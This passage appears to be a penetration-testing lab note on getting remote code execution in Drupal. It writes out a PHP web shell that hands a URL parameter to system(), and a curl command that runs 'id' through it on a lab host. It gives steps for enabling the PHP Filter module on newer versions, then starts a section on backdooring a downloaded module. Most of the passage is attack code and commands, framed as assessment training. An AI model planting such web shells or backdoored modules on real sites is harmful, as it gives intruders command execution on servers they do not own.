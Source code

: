 #### We can now create a page with a malicious PHP snippet
```Shell
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
*Name the parameter with an md5 hash instead of the common `cmd` to get in the practice of not potentially leaving a door open to an attacker during the assessment*

#### Set `Text format` drop-down to `PHP code`
![[Pasted image 20230220114650.png]]
After clicking save, we will be redirected to the new page, in this example `http://drupal-qa.inlanefreight.local/node/3`

#### Request execute commands in the browser by appending `?dcfdd5e021a869fcc6dfaef8bf31377e=id` to the end of the URL to run the id command or use cURL on the command line
```Shell
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```

#### ==Version 8 onwards== we need to download and install the `PHP Filter` module ourselves
```Shell
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
Ask the client before downloading this

#### Go to `Administration` > `Reports` > `Available updates`
![[Pasted image 20230220115203.png]]
Location may differ based on the Drupal version and may be under the Extend menu.

#### Click on `Browse`, select the file from the directory we downloaded it to, then click `Install`

#### Click on `Content` and create a new basic page. Select `PHP code`from the `Text format` dropdown

### Uploading a Backdoored Module
Modules can be found on the `drupal.org` website

#### For a module like `CAPTCHA`, download the archive and extract its contents
```Shell
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```

```Shell
tar xvf captcha-8.x-1.2.tar.gz
```
